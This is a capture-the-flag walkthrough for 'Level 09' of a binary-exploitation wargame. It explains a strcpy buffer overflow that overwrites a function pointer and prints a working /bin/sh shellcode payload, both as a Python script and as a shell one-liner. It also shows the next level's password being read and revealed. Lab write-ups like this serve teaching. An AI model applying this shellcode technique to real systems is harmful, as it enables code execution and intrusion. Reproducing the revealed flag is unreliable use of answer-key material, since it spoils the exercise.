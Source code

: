# Level 09 Walkthrough

## Binary analysis

The binary uses function pointers and user-controlled data, making it vulnerable to a buffer overflow. By overflowing a buffer, we can inject shellcode and overwrite a function pointer to execute arbitrary code.

### Key decompiled code

- The program allocates memory and uses user input to set up function pointers and buffers. Eventually, it calls a function pointer that can be overwritten via a buffer overflow.
- Example vulnerable code:
    ```c
    char buffer[...];
    // ...
    strcpy(buffer, user_input); // vulnerable
    // ...
    call function_pointer; // can be overwritten
    ```

## Exploitation

We craft a payload that:
- Injects shellcode into the buffer
- Adds padding to reach the function pointer
- Overwrites the function pointer with the address of our shellcode

Example payload (Python):
```python
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = b"\x10\xa0\x04\x08" + shellcode + b"A"*76 + b"\x0c\xa0\x04\x08"
with open("payload.txt", "wb") as f:
    f.write(payload)
```
Or directly:
```
./level9 $(python -c 'print("\x10\xa0\x04\x08"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+76*"A"+"\x0c\xa0\x04\x08")')
```

## Commands used

```
./level9 $(python -c 'print("\x10\xa0\x04\x08"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"+76*"A"+"\x0c\xa0\x04\x08")')
cat /home/user/bonus0/.pass
```

## Result

After running the exploit, we get the password for bonus0:

```
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```